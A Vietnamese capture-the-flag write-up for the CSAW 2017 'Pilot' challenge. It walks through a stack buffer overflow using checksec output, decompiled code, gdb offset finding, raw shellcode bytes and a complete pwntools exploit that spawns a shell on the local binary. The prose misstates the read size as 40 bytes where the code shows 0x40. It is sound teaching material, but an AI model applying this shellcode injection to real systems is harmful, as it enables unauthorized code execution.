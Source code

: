 ### Pilot - CSAW 2017
* Check security file:
```
 ❯ checksec pilot
[*] '/mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
* Thấy rằng file bin này cho phép thực thi lệnh trên stack.
* Source sau khi được dịch qua IDA:
```
{
  __int64 v3; // rax
  __int64 v4; // rax
  __int64 v5; // rax
  __int64 v6; // rax
  __int64 v7; // rax
  __int64 v8; // rax
  __int64 v9; // rax
  __int64 v10; // rax
  __int64 v11; // rax
  __int64 v12; // rax
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  v3 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Welcome DropShip Pilot...");
  std::ostream::operator<<(v3, &std::endl<char,std::char_traits<char>>);
  v4 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I am your assitant A.I....");
  std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
  v5 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]I will be guiding you through the tutorial....");
  std::ostream::operator<<(v5, &std::endl<char,std::char_traits<char>>);
  v6 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]As a first step, lets learn how to land at the designated location....");
  std::ostream::operator<<(v6, &std::endl<char,std::char_traits<char>>);
  v7 = std::operator<<<std::char_traits<char>>(
         &std::cout,
         "[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...");
  std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
  v8 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Good Luck Pilot!....");
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  v9 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  v10 = std::ostream::operator<<(v9, buf);
  std::ostream::operator<<(v10, &std::endl<char,std::char_traits<char>>);
  std::operator<<<std::char_traits<char>>(&std::cout, "[*]Command:");
  if ( read(0, buf, 0x40uLL) > 4 )
    return 0LL;
  v11 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
  std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
  v12 = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
  std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
  return 0xFFFFFFFFLL;
}
```

* buf được khởi tạo với kích thước 32 bytes tuy nhiên khi đọc buf lại cho phép 40 bytes, vậy ta sẽ ghi đè được ở đây.
* Chạy bin:
```
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fffffffdae0
[*]Command:
```
* Theo thông thường khi khai thác buffer overflow thì payload sẽ bao gồm padding + địa chỉ, padding sẽ nằm trong stack, file bin này cho phép thực thi mã trên stack nên ta có thể chèn vào một shell code trong phần padding.
* Đoạn mã shell code `\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05`
* Tiếp theo cần tìm kích thước của padding để ghi đè.
* Đầu tiên nhập vào chuỗi bất kì sau đó dùng search-pattern để tìm địa chỉ chuỗi này được ghi vào trong stack:
```
gef➤  search-pattern 181818
[+] Searching '181818' in memory
[+] In '[stack]'(0x7ffffffdd000-0x7ffffffff000), permission=rwx
  0x7fffffffdae0 - 0x7fffffffdae8  →   "181818\n"
```

* Tìm địa chỉ của rip
```
gef➤  i f
Stack level 0, frame at 0x7fffffffdb10:
 rip = 0x400aee; saved rip = 0x7ffff7b99c8a
 called by frame at 0x7fffffffdbb0
 Arglist at 0x7fffffffdad8, args:
 Locals at 0x7fffffffdad8, Previous frame's sp is 0x7fffffffdb10
 Saved registers:
  rbp at 0x7fffffffdb00, rip at 0x7fffffffdb08
```

* Như vậy ta có được offset cần là:
```
>>> 0x7fffffffdb08-0x7fffffffdae0
40
```

* file exploit:
```
from pwn import *
p = process('./pilot')

# scpt = '''
# b *0x0000000000400AEE
# '''
# gdb.attach(p, gdbscript=scpt)
print(p.recvuntil(b'[*]Location:'))

leak = str(p.recvline())
adr = int(leak.strip("b'\\n"), 16)

shell_code = b'\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05' # Shell code
payload = b''
payload += shell_code
payload += b'a'*(40-len(shell_code))	
payload += p64(adr)

p.sendline(payload)
p.interactive()
p.close()
```